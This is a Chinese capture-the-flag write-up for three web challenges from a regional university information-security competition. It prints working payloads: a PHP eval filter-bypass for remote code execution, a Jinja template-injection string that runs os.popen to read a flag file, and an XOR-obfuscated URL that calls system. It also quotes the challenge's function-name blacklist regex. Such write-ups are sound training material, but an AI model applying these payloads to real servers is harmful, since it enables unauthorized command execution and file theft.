


第十三届全国大学生信息安全竞赛-创新实践能力赛西南赛区选拔赛wp
扫一下目录，有个www.rar，解压审计一下代码，找到关键文件key.php
class XJNU{
private function flag(){
echo $flag;
}
}
if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['f'])){
die("do not attack me");
}
if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['c'])){
die("do not attack me");
}
if(preg_match("/XJNU|flag/i" , $_GET['f']) || preg_match("/XJNU|flag/i" , $_GET['c'])){
die("no way!<br>");
}
$new = call_user_func_array($_GET['f'],["", $_GET['b']]);
eval($_GET['c']);
回调函数的rce，不过因为参数c过滤不严格，导致可以通过getheader来rce。
先var_dump(scand(“/“))找到flag文件，再用readfile读就可以了。

随便输入账户登录进去，fuzz一下，在每日报告的第三个参数存在ssti。过滤了些关键字，用globals来找就行。
payload：
status_1=&status_2=&status_3={{url_for.__globals__.os.popen('cat /flag2333_canufindit').read()}}
一个简单的命令执行,Ban一些符号与字符函数，可以通过重载函数的方法来调用。因此我们利用异或拼出GET然后调用system来rec。
Payload如下：
`http://172.1.21.13/flag.php?search=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag.txt`